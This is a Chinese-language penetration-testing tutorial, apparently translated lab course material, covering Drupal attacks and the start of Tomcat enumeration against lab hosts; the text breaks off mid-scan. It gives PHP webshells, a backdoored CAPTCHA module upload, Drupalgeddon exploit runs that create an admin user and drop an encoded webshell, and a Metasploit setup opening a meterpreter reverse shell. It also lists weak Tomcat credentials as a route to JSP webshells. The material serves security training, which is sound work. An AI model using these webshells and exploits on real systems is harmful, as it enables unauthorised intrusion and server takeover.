

例如，上面提到的博客文章位于 /node/1 。这种表示方法有助于在使用自定义主题时识别 Drupal 网站。

Drupal 默认支持三种类型的用户：

1. Administrator ：此用户对 Drupal 网站拥有完全控制权。
2. Authenticated User ：这些用户可以登录网站，并根据其权限执行添加和编辑文章等操作
3. Anonymous ：所有网站访问者均被设置为匿名用户。默认情况下，这些用户仅允许阅读文章。

### 4.2 枚举

一旦我们发现了 Drupal 实例，就可以结合手动和工具（自动化）枚举方法来获取版本、已安装的插件等信息。根据 Drupal 版本和已采取的任何安全措施，我们可能需要尝试多种方法来确定版本号。较新的 Drupal 安装默认会阻止访问 CHANGELOG.txt 和 README.txt 文件，因此我们可能需要进行进一步的枚举。让我们来看一个使用 CHANGELOG.txt 文件枚举版本号的示例。为此，我们可以使用 cURL 以及 grep 、 sed 、 head 等工具。

```bash
$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

这里我们发现正在使用的 Drupal 版本较旧。用撰写本文时的最新 Drupal 版本进行测试，会得到 404 响应。

```bash
$ curl -s http://drupal.inlanefreight.local/CHANGELOG.txt

<!DOCTYPE html><html><head><title>404 Not Found</title></head><body><h1>Not Found</h1><p>The requested URL "http://drupal.inlanefreight.local/CHANGELOG.txt" was not found on this server.</p></body></html>
```

我们还可以通过其他几个方面来确定版本。让我们尝试使用 droopescan 进行扫描，就像 Joomla 枚举部分中展示的那样。Droopescan  的功能比对 Joomla 的功能要强大得多。

让我们对 http://drupal.inlanefreight.local 主机进行扫描。

```bash
$ droopescan scan drupal -u http://drupal.inlanefreight.local

[+] Plugins found:                                                      
    php http://drupal.inlanefreight.local/modules/php/
        http://drupal.inlanefreight.local/modules/php/LICENSE.txt

[+] No themes found.

[+] Possible version(s):
    8.9.0
    8.9.1

[+] Possible interesting urls found:
    Default admin - http://drupal.inlanefreight.local/user/login

[+] Scan finished (0:03:19.199526 elapsed)

```

此实例似乎运行的是 Drupal 8.9.1 版本。截至撰写本文时，该版本并非最新版本，因为它发布于 2020 年 6 月。快速搜索 Drupal 相关[漏洞 ](https://www.cvedetails.com/vulnerability-list/vendor_id-1367/product_id-2387/Drupal-Drupal.html)，并未发现此 Drupal 核心版本存在任何明显的漏洞。在这种情况下，我们下一步需要检查已安装的插件或是否存在滥用内置功能的情况。

### 4.3 攻击

既然我们已经确认我们面对的是 Drupal 并且已经识别出版本，那么让我们来看看我们可以发现哪些配置错误和漏洞，以便尝试获得内部网络访问权限。与某些内容管理系统不同，通过管理控制台获取 Drupal 主机的 shell 权限并不像编辑主题中的 PHP 文件或上传恶意 PHP 脚本那么容易。

#### 4.3.1 使用 PHP filter 模块

在旧版本的 Drupal（版本 8 之前）中，可以以管理员身份登录并启用 PHP filter 模块，该模块“Allows embedded PHP code/snippets to be evaluated.”。



接下来，我们可以勾选模块旁边的复选框，然后向下滚动到 Save configuration 。然后，我们可以转到“Content”——“Add content”并创建一个 Basic page 。

现在我们可以创建一个包含恶意 PHP 代码片段的页面，例如下面的代码片段。我们使用 MD5 哈希值而不是常见的 cmd 来命名参数，是为了在评估过程中避免给攻击者留下可乘之机。如果我们使用标准的 system($_GET['cmd']); 就可能让“路过式”攻击者有机可乘，直接访问我们的 Web Shell。虽然可能性不大，但小心驶得万年船！

```php
        php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

```



我们还需要确保将 Text format 下拉菜单设置为 PHP code 。点击保存后，我们将被重定向到新页面，在本例中为 http://drupal-qa.inlanefreight.local/node/3 。保存后，我们可以通过在 URL 末尾添加 ?dcfdd5e021a869fcc6dfaef8bf31377e=id 来运行 id 命令，从而在浏览器中请求执行命令，或者在命令行中使用 cURL 。接下来，我们可以使用一行 bash 命令来获取反向 shell 访问权限。

```bash
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

从 Drupal 8 版本开始， PHP Filter 模块不再默认安装。要使用此功能，我们需要自行安装该模块。由于我们将对客户的 Drupal 实例进行更改和添加，因此最好先与客户确认。首先，我们需要从 Drupal 官网下载该模块的最新版本。

```bash
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

```

下载完成后，请转到 Administration > Reports >“ Available updates 。

从这里，点击 Browse, 从我们下载的目录中选择文件，然后点击 Install 。模块安装完成后，我们可以点击 Content 并创建一个新的基本页面，类似于我们在 Drupal 7 示例中的操作。同样，请务必从 Text format 下拉菜单中选择 PHP code 。

无论哪种情况，我们都应该在进行此类更改之前告知客户并获得其许可。此外，完成后，我们应该移除或禁用 PHP Filter 模块，并删除所有用于获取远程代码执行权限的页面。

#### 4.3.2 上传后门模块

Drupal 允许拥有相应权限的用户上传新模块。通过向现有模块添加 shell，可以创建一个带有后门的模块。模块可以在 drupal.org 网站上找到。我们选择一个模块，例如 [CAPTCHA](https://www.drupal.org/project/captcha) 。向下滚动并复制 tar.gz 压缩包的链接。

下载压缩包并解压其中的内容。

```bash
$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
laji123@htb[/htb]$ tar xvf captcha-8.x-1.2.tar.gz
```

创建一个包含以下内容的 PHP Web Shell：

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

接下来，我们需要创建一个 .htaccess 文件，以便获得对该文件夹的访问权限。这是必要的，因为 Drupal 不允许直接访问 /modules 文件夹。

```xml
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

上述配置会在请求 /modules 目录下的文件时应用 / 目录下的规则。请将这两个文件复制到 captcha 文件夹并创建一个压缩包。

```bash
$ mv shell.php .htaccess captcha
$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

假设我们拥有网站的管理权限，请点击侧边栏上的 Manage ，然后 Extend 。接下来，点击 + Install new module 按钮，我们将进入安装页面，例如 http://drupal.inlanefreight.local/admin/modules/install 浏览到带有后门的验证码存档并点击 Install 。

安装成功后，浏览到 /modules/captcha/shell.php 执行命令。

```bash
$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.4 利用已知漏洞

多年来，Drupal 核心代码曾遭受过几次严重的远程代码执行漏洞攻击，每次攻击都被称为 Drupalgeddon 。截至撰写本文时，已知的 Drupalgeddon 漏洞共有 3 个。

[CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005) ，又称 Drupalgeddon，影响 7.0 至 7.31 版本，已在 7.32 版本中修复。这是一个预认证 SQL 注入漏洞，可用于上传恶意表单或创建新的管理员用户。

[CVE-2018-7600](https://www.drupal.org/sa-core-2018-002) ，也称为 Drupalgeddon2，是一个远程代码执行漏洞，影响 Drupal 7.58 和 8.5.1 之前的版本。该漏洞是由于用户注册期间输入清理不足造成的，允许恶意注入系统级命令。

[CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/) ，也称为 Drupalgeddon3，是一个远程代码执行漏洞，影响 Drupal 7.x 和 8.x 的多个版本。此漏洞利用了表单 API 中不正确的验证。

让我们逐一了解如何利用这些漏洞。

#### 4.4.1 Drupalgeddon

如前所述，此漏洞可利用预身份验证 SQL 注入进行攻击，从而上传恶意代码或添加管理员用户。让我们尝试使用此 [PoC 脚本](https://www.exploit-db.com/exploits/34992)添加一个新的管理员用户。添加管理员用户后，我们可以登录并启用 PHP Filter 模块来实现远程代码执行。

运行脚本时加上 -h 参数会显示帮助菜单。

这里我们需要提供目标 URL 以及新管理员帐户的用户名和密码。让我们运行脚本，看看是否能创建一个新的管理员用户。

```bash
$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node

```

现在我们来看看能不能以管理员身份登录。可以！现在，我们可以通过本节前面讨论的各种方法获取 shell。

我们还可以使用 Metasploit 的[ exploit/multi/http/drupal_drupageddon 模块](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/)来利用此漏洞。

#### 4.4.2 Drupalgeddon2

我们可以使用这个[概念验证](https://www.exploit-db.com/exploits/44448)来确认这个漏洞。

```bash
$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt

```

我们可以使用 cURL 快速检查，发现 hello.txt 文件确实已上传。

```bash
$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

现在让我们修改脚本，通过上传恶意 PHP 文件来获得远程代码执行权限。

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```bash
$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

接下来，让我们将漏洞利用脚本中的 echo 命令替换为输出恶意 PHP 脚本的命令。

```bash
$ echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

接下来，运行修改后的漏洞利用脚本来上传我们的恶意 PHP 文件。

```bash
$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php

```

最后，我们可以使用 cURL 确认远程代码执行。

```bash
$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### 4.4.3 Drupalgeddon3

[Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) 是一个需要身份验证的远程代码执行漏洞，会影响[多个版本](https://www.drupal.org/sa-core-2018-004)的 Drupal 核心。它要求用户拥有删除节点的权限。我们可以使用 Metasploit 来利用此漏洞，但必须先登录并获取有效的会话 cookie。



一旦我们获得了会话 cookie，我们就可以按如下方式设置漏洞利用模块。

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```

如果成功，我们将获得目标主机上的反向 shell。

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

# 四. Servlet 容器 / 软件开发

## 1. Tomcat 发现与枚举与攻击

[Apache Tomcat ](https://tomcat.apache.org/)是一款开源 Web 服务器，用于托管用 Java 编写的应用程序。Tomcat 最初设计用于运行 Java Servlet 和 Java Server Pages (JSP) 脚本。然而，它在基于 Java 的框架中越来越受欢迎，现在已被 Spring 等框架和 Gradle 等工具广泛使用。根据 BuiltWith 收集的数据，目前有超过 22 万个活跃的 Tomcat 网站。

Tomcat 通常不太容易暴露在互联网上（尽管如此）。我们偶尔会在外部渗透测试中看到它，它可能成为入侵内部网络的绝佳立足点。在内部渗透测试中，发现 Tomcat（而且往往是多个实例）则更为常见。它通常会在 EyeWitness 报告的“高价值目标”列表中名列前茅，而且通常情况下，至少有一个内部实例配置了弱密码或默认密码。稍后会详细介绍这一点。

### 1.1 识别

在外部渗透测试期间，我们运行了 EyeWitness 工具，发现一台主机被列在“高价值目标”下。该工具认为这台主机运行的是 Tomcat，但我们需要确认才能制定攻击计划。如果 Tomcat 确实运行在外部网络上，那么这可能成为入侵内部网络环境的便捷入口。

可以通过 HTTP 响应中的 Server 标头来识别 Tomcat 服务器。如果服务器运行在反向代理之后，请求无效页面应该可以显示服务器及其版本。这里我们可以看到正在使用的 Tomcat 版本是 9.0.30 。

某些自定义错误页面可能不会泄露版本信息。在这种情况下，还可以通过 /docs 页面来检测 Tomcat 服务器及其版本。

```bash
$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 

<SNIP>
```

这是默认文档页面，管理员可能无法将其删除。以下是 Tomcat 安装的一般文件夹结构。

```shell
        shellsession
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost

```

- `bin` 目录存放启动和运行 Tomcat 服务器所需的脚本与二进制文件。
- `conf` 目录存放 Tomcat 使用的各类配置文件。
- `tomcat-users.xml` 文件用于存储用户凭证及其分配的角色权限。
- `lib` 目录存放 Tomcat 正常运行所需的各类 JAR 包。
- `logs` 和 `temp` 目录用于存放临时日志和临时文件。
- `webapps` 目录是 Tomcat 默认的网站根目录，所有 Web 应用都部署在这里。
- `work` 目录充当缓存，用于在运行期间存储临时数据。

webapps 目录下的每个文件夹都应具有以下结构。

```shell
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class

```

其中最重要的文件是 `WEB-INF/web.xml`，它被称作部署描述符（deployment descriptor）。该文件存放了应用的路由地址，以及负责处理这些路由的类信息。
应用用到的所有已编译类文件，都应放在 `WEB-INF/classes` 目录下。这些类中可能包含核心业务逻辑与敏感信息，一旦存在漏洞，可能直接导致整个网站被完全控制。
lib 目录存放该 Web 应用自身需要的依赖库。jsp 目录存放[ Jakarta Server Pages](https://en.wikipedia.org/wiki/Jakarta_Server_Pages)（JSP，原 JavaServer Pages） 文件，其作用可以类比 Apache 服务器上的 PHP 文件。

* WEB-INF 是安全目录，默认不能直接浏览器访问，但可通过文件包含 / 目录遍历读取
* web.xml：定义路由、Servlet、权限，是代码审计核心
* classes：存放编译后的 Java 业务代码，泄露 = 源码泄露，极易挖到漏洞
* JSP ≈ PHP：写一句话木马、拿 WebShell 主要就是靠上传 JSP

这是一个 web.xml 文件示例。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>

```

上方的 web.xml 配置定义了一个名为 AdminServlet 的新 Servlet，该 Servlet 被映射到 com.inlanefreight.api.AdminServlet 这个 Java 类。Java 使用点号表示法来定义包名，这意味着上述配置中定义的类在磁盘上的实际路径为：`classes/com/inlanefreight/api/AdminServlet.class`

接下来，会创建一条新的 Servlet 映射规则，将对 /admin 路径的请求绑定到 AdminServlet。该配置会把所有访问 /admin 的请求，交由 AdminServlet.class 类来处理。
**web.xml 部署描述符中包含大量敏感信息，在利用 本地文件包含（LFI）漏洞时，该文件是需要重点查看的关键文件。**

`tomcat-users.xml` 文件用于控制**是否允许访问 `/manager` 和 `host-manager` 管理员后台页面**。

```xml
<?xml version="1.0" encoding="UTF-8"?>

<SNIP>
  
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->

   
 <SNIP>
  
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />


</tomcat-users>

```

该文件会向我们展示 `manager-gui`、`manager-script`、`manager-jmx` 和 `manager-status` 这些角色分别对应哪些访问权限。
在本例中可以看到：

- 有一个用户名为 `tomcat`、密码为 `tomcat` 的账号，拥有 `manager-gui` 角色权限；
- 同时还为 `admin` 用户设置了另一个弱密码 `admin`。

**Tomcat 后台四种核心角色**

- `manager-gui`：**网页版管理后台权限**（最重要，能直接在浏览器上传 WAR 包拿服务器）
- `manager-script`：脚本/接口调用权限
- `manager-jmx`：JMX 监控接口权限
- `manager-status`：仅查看状态权限

**攻击关键点**
文中出现了**弱口令**：

- `tomcat:tomcat`
- `admin:admin`
  拿到这类账号密码，直接登录 `/manager/html` 后台，上传 JSP 木马 WAR 包，就能拿下服务器。

### 1.2 枚举

对 Tomcat 实例进行指纹识别后，除非它存在已知漏洞，否则我们通常会查找` /manager `和 /host-manager 页面。我们可以使用 Gobuster 等工具来查找这些页面，或者直接访问它们。

```bash
$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://web01.inlanefreight.local:8180/
